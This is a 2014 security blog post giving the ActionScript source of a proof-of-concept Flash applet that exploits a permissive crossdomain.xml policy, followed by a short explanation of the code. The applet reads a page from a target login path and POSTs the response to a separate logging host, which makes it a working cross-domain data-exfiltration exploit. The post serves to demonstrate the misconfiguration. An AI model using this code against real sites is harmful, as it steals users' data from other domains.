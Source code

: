 ```yaml
---
title: 'Liberal Crossdomain.xml Example- Part 2'
date: 2014-08-12T12:29:49+00:00
author: chs
layout: post
permalink: /liberal-crossdomain-xml-example-part-2/
categories:
  - Security
---
```

As a followup to [Liberal Crossdomain.xml Exploit Example – Part 1](//chs.us/liberal-crossdomain-xml-exploit-example/ "Liberal Crossdomain.xml Exploit Example – Part 1"), this is the source for the Flash app.

<pre lang="actionscript" line="1">package {
 import flash.display.Sprite;
 import flash.events.*;
 import flash.net.URLRequestMethod;
 import flash.net.URLRequest;
 import flash.net.URLLoader;

 public class flasher extends Sprite {
  public function flasher() {
   // Target URL from where the data is to be retrieved
   var readFrom:String = "http://rubysecurity.info/login/info.php";
   var readRequest:URLRequest = new URLRequest(readFrom);
   var getLoader:URLLoader = new URLLoader();
   getLoader.addEventListener(Event.COMPLETE, eventHandler);
   try
   {
    getLoader.load(readRequest);
   }
   catch (error:Error)
   {
   }
  }

  private function eventHandler(event:Event):void
  {
   // URL to which retrieved data is to be sent
   var sendTo:String = "http://injectionvector.com/flasher/log.php"
   var sendRequest:URLRequest = new URLRequest(sendTo);
   sendRequest.method = URLRequestMethod.POST;
   sendRequest.data = event.target.data;
   var sendLoader:URLLoader = new URLLoader();
   try
   {
    sendLoader.load(sendRequest);
   }
   catch (error:Error)
   {
   }
  }
 }
}
</pre>

It&#8217;s really a fairly simple Flash applet. The class is called flasher and extends Sprite. Sprite is a base class for UI components that don&#8217;t use the timeline. In the constructor it creates a URLRequest object to data from the location specified in the readFrom variable via a URLLoader object. It then sets an event handler, called eventhandler, that is called when that read is done. When the read is done, it then basically does the same thing, but posts to the variable specified in sendTo and sets the body of the request to be the data received from the first step.

Note: This is based off an example that I found, but have misplaced. Once found, I will update the post to reference it.
